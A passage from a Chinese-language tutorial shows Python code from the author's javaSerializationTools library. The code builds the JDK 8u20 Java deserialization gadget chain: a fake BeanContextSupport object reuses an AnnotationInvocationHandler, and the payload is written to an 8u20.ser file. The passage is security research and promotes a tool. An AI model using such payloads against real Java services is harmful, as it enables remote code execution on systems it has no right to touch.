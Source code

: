 然后构造BeanContextSupport对象的值

```
        # 构造假的BeanContextSupport反序列化对象，注意要引用后面的AnnotationInvocationHandler
        # 读取BeanContextSupportClass的类的简介
        with open('BeanContextSupportClass.yaml', 'r') as f1:
            BeanContextSupportClassDesc = yaml.load(f1.read(), Loader=yaml.FullLoader)

        # 向beanContextSupportObject添加beanContextChildPeer属性
        beanContextSupportObject = JavaObject(BeanContextSupportClassDesc)
        beanContextChildPeerField = JavaField('beanContextChildPeer',
                                              JavaString('Ljava/beans/beancontext/BeanContextChild'),
                                              beanContextSupportObject)
        beanContextSupportObject.fields.append([beanContextChildPeerField])

        # 向beanContextSupportObject添加serializable属性
        serializableField = JavaField('serializable', 'I', 1)
        beanContextSupportObject.fields.append([serializableField])
```

最后处理objectAnnotation，因为BeanContextSupport的父类也有writeObject方法。根据协议，我们第一个值为javaEndBlock，第二个值才是`sun.reflect.annotation.AnnotationInvocationHandler`对象，在这里我们直接引用7u21 的`AnnotationInvocationHandler`对象。这样，真正起作用的`AnnotationInvocationHandler`直接引用第一个成功还原的`AnnotationInvocationHandler`的对象。而引用的对象，再被引用的过程中是不会调用readObject方法的。

代码如下
```
        # 向beanContextSupportObject添加objectAnnontations 数据
        beanContextSupportObject.objectAnnotation.append(JavaEndBlock())
        AnnotationInvocationHandler = obj.objectAnnotation[2].fields[0][0].value
        beanContextSupportObject.objectAnnotation.append(AnnotationInvocationHandler)

        # 把beanContextSupportObject对象添加到fake属性里
        fakeField = JavaField('fake', fakeSignature['signature'], beanContextSupportObject)
        obj.fields[0].append(fakeField)
```


当然在这里不需要计算handle，只需要使用ObjectWrite对象写入文件，即可自动计算handle等一切繁琐的事
```
    with open("8u20.ser", 'wb') as f:
        o = ObjectWrite(f)
        o.writeContent(obj)
```

8u20 gadget 布局如下图所示

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20210121162757.png)

完整的代码详见 https://github.com/potats0/javaSerializationTools/blob/main/tests/test8u20/main.py



欢迎fork star项目，目前还在设计中，使用起来将会更加容易

项目地址 https://github.com/potats0/javaSerializationTools


![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//imgWeChat%20Image_20200612150038.png)
